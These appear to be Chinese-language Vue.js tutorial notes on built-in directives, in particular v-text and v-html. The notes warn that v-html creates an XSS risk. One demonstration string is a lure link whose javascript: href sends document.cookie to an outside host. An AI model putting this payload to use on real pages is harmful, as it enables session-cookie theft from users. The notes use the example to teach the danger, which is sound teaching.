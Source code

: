 ## 15. 内置指令

v-bind : 单向绑定解析表达式，可简写为:

v-model : 双向数据绑定

v-for : 遍历数组/对象/字符串

v-on : 绑定事件监听, 可简写为@

v-if : 条件渲染（动态控制节点是否存存在）

v-else : 条件渲染（动态控制节点是否存存在）

v-show : 条件渲染（动态控制节点是否展示）

### 15.1 v-text

1. 作用：向其所在的节点中渲染文本内容。

2. 与插值语法的区别：v-text会替换掉节点中的内容，`{{xx}}`则不会。

```html
<div id="root">
    <div>你好，{{name}}</div>
    <div v-text="name"></div>
    <div v-text="str"></div>
</div>
<script type="text/javascript">
    new Vue({
        el:'#root',
        data:{
            name:'尚硅谷',
            str:'<h3>你好啊！</h3>'
        }
    })
</script>
```

### 15.2 v-html

1. 作用：向指定节点中渲染包含html结构的内容。

2. 与插值语法的区别：
   1. v-html会替换掉节点中所有的内容，{{xx}}则不会。
   2. v-html可以识别html结构。

3. 严重注意：v-html有安全性问题！！！！
   1. 在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击。
   2. 一定要在可信的内容上使用v-html，永不要用在用户提交的内容上！

```html
<div id="root1">
    <div>你好，{{name}}</div>
    <div v-html="str"></div>
    <div v-html="str2"></div>
</div>
<script type="text/javascript">
    new Vue({
        el:'#root1',
        data:{
            name:'尚硅谷',
            str:'<h3>你好啊！</h3>',
            str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
        }
    })
</script>
```